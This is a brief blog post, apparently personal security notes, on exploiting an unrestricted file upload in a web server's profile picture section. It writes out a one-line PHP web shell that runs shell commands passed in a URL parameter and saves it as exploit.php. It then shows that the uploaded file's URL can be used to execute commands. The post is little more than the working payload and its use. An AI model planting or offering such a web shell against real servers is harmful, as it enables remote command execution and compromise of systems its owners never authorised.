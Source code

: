 ```yaml
---
layout: post
title: unrestricted file upload
---
```

possible way to take advantage of an unrestricted file upload within a profile picture section in a web server

```
echo "<?php system(\$_GET['cmd']); ?>" > exploit.php
```

copy image address results in the following url being copied to our clipboard: http://www.nop.cat/admin/ftp/objects/XXXXXXXXXXXX.php



![url to execute](https://raw.githubusercontent.com/nopcat/nopcat.github.io/master/images/url.png)
